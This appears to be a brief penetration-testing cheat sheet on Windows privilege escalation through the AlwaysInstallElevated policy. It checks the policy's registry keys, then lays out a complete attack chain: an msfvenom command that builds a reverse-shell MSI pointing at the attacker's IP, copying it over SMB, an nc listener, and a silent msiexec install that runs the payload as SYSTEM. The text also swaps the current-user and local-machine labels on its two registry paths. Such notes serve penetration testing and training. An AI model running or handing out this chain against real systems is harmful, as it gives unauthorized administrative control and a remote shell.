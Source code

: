 - - -
Here is Great refrence of all **[whomai /priv](https://github.com/gtworek/Priv2Admin)**

The **AlwaysInstallElevated** is a Windows policy that allows unprivileged users to install software through the use of MSI packages using SYSTEM level permissions, which can be exploited to gain administrative access over a Windows machine.
The **AlwaysInstallElevated** value must set to ‘**1**’ for both Local_Machine.

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

And the Current user.

`HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`

## Start :

```cmd
whoami /priv
```

The first step is to check whether the required registry keys are enabled **:**

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=our-ip LPORT=9090 -f msi -o reverse.msi
```

Now transfer this to windows.

```cmd
copy \\**our-ip**\reverse.msi **.**
```

```sh
nc -nvlp 9090
```

```cmd
msiexec /quiet /qn /i reverse.msi
```

 - - -
